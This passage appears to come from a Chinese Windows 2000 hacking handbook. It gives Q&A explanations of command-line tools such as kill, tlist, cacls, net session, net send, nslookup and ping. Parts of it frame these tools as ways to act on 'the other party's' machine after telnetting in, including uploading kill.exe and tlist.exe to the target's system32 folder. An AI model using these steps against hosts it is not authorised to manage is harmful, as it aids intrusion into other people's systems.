

## 有没有在命令行下可以杀死对方进程的工具？

微软的 win2k 以上的操作系统都是有这个工具的，不过在安装的时候没有被安装到系统中，需要自己安装。这个工具在 win2k 光盘的 `\support\tools` 文件夹下，那里有安装程序，点击后就安装了 win2k 的 support tools 工具包，里面就有 kill 这个工具。这个时候在 cmd 命令行模式下键入 `kill /?`，就可以看到帮助了（图6-12）。命令使用简单，只要是 `kill pid` 就可以了，pid 是指进程 ID 号，只要在任务管理器中就可以看到每个程序对应的进程 ID 号了（图6-13）。





我能不能在命令行模式下获得对方的 pid 呢？例如我是 telnet 到对方主机，我是没有办法调出任务管理器的。

办法是有的。还是刚才说的那个 support tools 里，有一个工具叫做 tlist，就是做这个的。使用方法很简单，在命令行下键入 tlist 就可以获得 pid 与应用程序的一个相互对应的列表（图6-14），部分程序后还有注释的。



kill 和 tlist 结合确实不错，但是，怎么能给对方安装 support tools 呢？如果对方没装，再怎么厉害也用不了啊！

不用怕不用急。如果你的 win2k 安装在 C 盘的话，来到这里 `C:\Program Files\Support Tools`，在这个目录下可以找到 kill.exe 和 tlist.exe 这两个文件（图6-15）。将这两个文件上传到对方的 `c:\winnt\system32` 目录下，就可以直接使用了。



有什么命令可以查看某个文件夹所对应分给每个用户的权限？

CACLS 命令就可以了。它用来查看每个文件或是文件夹的 ACL（访问控制列表），通过这个列表就可以查看哪些用户是否有权限访问这个文件或是文件夹了。例如，在 E 盘下，使用命令 `cacls hack-tool` 来查看 hack-tool 这个文件夹的 ACL，可以看到如（图6-16）的情况。这里的“F”代表“完全控制”，“R”代表“只读”，另外，还有“C”更改（写入），“W”写入，“N”无权限。



图6-16

## 在管理工具中可以通过计算机管理查看当前与本机的会话的主机有哪些，在命令行下可以做到吗？

可以的，使用 `net session` 命令就可以了。例如：我先在本机上与自己建立一个 ipc$ 连接；然后，使用 `net session` 命令，就可以查看到自己与本机的会话了（图6-17）。



图6-17

## 在命令行下，如何中断会话呢？

继续上面的例子，用 `net session` 可以看到 `\\python` 在与本机通信，这时候使用命令 `net session \\python /delete`，然后再用命令 `net session` 会发现会话清除了。

显示列表是空的，说明该会话已被删除（图6-18）。



图6-18

## 如何给另外一台主机发送信息呢？

`net send` 命令就可以完成这个任务。命令格式为：`net send machine_name message`，例如：`net send python hello! python!`，这样将发送消息“hello! python!”这条信息到主机 python 上（图6-19）。



图6-19

## 什么命令可以将 FAT32 的分区转换为 NTFS 格式的分区？

`convert` 命令，使用的格式为：`CONVERT volume /FS:NTFS`，这里的 volume 就是要转化的分区。

## win2k部分

## 用深入浅出的知识点讲述网络命令

### 一、用深入浅出的方法讲解网络命令

> nslookup 干什么用的，听说可以获得 DNS，怎么用啊？

nslookup 是一个用来验证 DNS 服务响应的工具。而且，也可以用它来获得域中的主机 IP 列表。

如（图6-20），使用命令 `nslookup www.sohu.com`，这样就获得了 sohu.com 这个域中的主机 IP 列表，同时还会获得本地机所使用 DNS 服务器的地址，图中的 server 和 address 就分别是 DNS 的地址和 IP 地址。



我们可以用 `ipconfig/all` 命令来验证一下（图6-21），从 `ipconfig/all` 的结果可以看到 DNS 服务器和使用 nslookup 查到的地址是一样的，可见没有错误。



> 有没有什么命令可以在运行某些命令的时候，使这个命令在其他窗口运行而不干扰当前的窗口？

OH! yeah! 有的，就是 `start` 命令。其实这个命令在 win98 中也有，但是在 win98 中却不能完成这些工作，这是 win2k 的新功能哦。命令很简单：`start command`。

例如：`start dir c:\`，这样就会弹出一个新窗口，新窗口中将执行 `dir c:\` 这个命令（图6-22）。



> 如何获得某个站点的 IP 地址？

方法非常简单，只要使用 `ping` 命令就可以完成了。格式也很简单：`ping www.xxx.com`。

例如：我要获得 `www.sohu.com` 的 IP 地址，只要 `ping www.sohu.com`（图6-23），就可以获得 IP 地址。



**注意**：ping 某个 web 站点的时候，不要写成这样 `ping http://www.xxx.com`，如果前面有 `http://` 的话，是无法 ping 通的。

## 我知道了对方的主机名，怎么获得他的 IP 地址？

直接使用 ping 命令就可以了，格式为：`ping machine_name`（图6-24），ping 一台名为 major 的主机。



## 我得到了对方的 IP 